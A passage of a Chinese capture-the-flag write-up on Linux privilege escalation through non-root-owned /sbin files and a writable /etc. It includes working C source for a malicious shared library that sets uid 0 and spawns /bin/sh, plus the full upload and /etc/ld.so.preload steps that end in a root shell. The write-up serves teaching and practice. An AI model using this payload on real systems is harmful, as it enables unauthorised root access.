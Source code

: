 > 当时我对这些东西一知半解，作为验题人却没有注意到这些问题，sad😞

- [attachments](https://drive.google.com/file/d/1IKKj57fliEOj396J2so5OiYrE614Leiq/view?usp=sharing)

进入 `/sbin` 目录发现其中文件到属主都并非 root，因此可以用上面到方法篡改，实现利用。

##### Chal-0x01: TPCTF-2023-core

- [attachments](https://drive.google.com/file/d/1F-vr8dpZfiPZx1l2_8zEXnzQdGyqHvvb/view?usp=sharing)

#### /etc 目录下可写

这个情况比较少见，可能出现在特殊构造到题目中，如上面的 [Chal-0x00: Hackergame-2022-no_open](#chal-0x00-hackergame-2022-no_open)，其中 suid 程序 chall 的属主为 root，则可以借助它，篡改其动态链接库来实现利用。

不过 suid 程序不会从环境变量 `LD_PRELOAD` 加载指定动态链接库（[man-page](https://man7.org/linux/man-pages/man8/ld.so.8.html)），这时候可以改 `/etc/ld.so.preload` 为恶意 so 文件。

```c
// gcc -fPIC -shared -o get_root.so get_root.c -nostartfiles

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

在构造好恶意动态链接库后，编译、压缩、上传、解压、改写 `/etc/ld.so.preload` 完成利用：

```bash
gcc -fPIC -shared -o get_root.so get_root.c -nostartfiles

strip ./get_root.so

gzip ./get_root.so

cat ./get_root.so.gz | base64

# 上传

/ $ cat ./tmp/get_root.so.gz.b64 | base64 -d > ./tmp/get_root.so.gz
/ $ gzip -d ./tmp/get_root.so.gz
/ $ vi ./etc/ld.so.preload
/ $ /chall
/ # ls
bin      etc      init     linuxrc  sbin     usr
chall    flag2    lib      proc     sys      var
dev      home     lib64    root     tmp
/ # whoami
whoami: unknown uid 0
/ # cat flag2
flag{testFLAGinROOTdirkjasdbashd12ye9}
```
